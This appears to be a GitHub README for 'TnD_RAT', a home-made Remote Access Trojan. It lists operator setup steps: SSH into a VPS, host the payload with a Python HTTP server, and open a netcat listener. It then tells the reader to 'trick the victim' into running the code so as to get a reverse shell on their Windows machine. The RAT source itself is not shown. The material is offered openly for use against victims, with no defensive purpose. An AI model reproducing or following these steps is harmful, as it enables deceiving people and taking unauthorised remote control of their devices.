 # TnD_RAT
TnD_RAT is a basic Remote Access Trojan that I made from scratch. I've tested to obtain a reverse shell on a Windows machine using it.

## Requirements
* A virtual private server.
* A terminal to run ssh (preferably LINUX).
* A victim.
* My RAT code. 😉😉

## Usage
* Start the server.
* Connect to the server using the RSA id.
* Navigate to the directory where the RSA id is stored.
* Then run the following command to ssh into the server.
```bash
  ssh -i rsa_id <username>@IP_Address
```
* After connecting to the server host the a python server
```bash 
python3 -m http.server
```
* Open another terminal.
* SSH into the server again using this terminal by running the above ssh command.
* Set up a listener by using the following command.
```bash 
nc -nlvp <PORT NUMBER>
```
* Now, trick the victim into running our code on his device. (Make sure that the victim is connected to the internet.)

* Woila!!!  You got a reverse shell into the victim's device. 
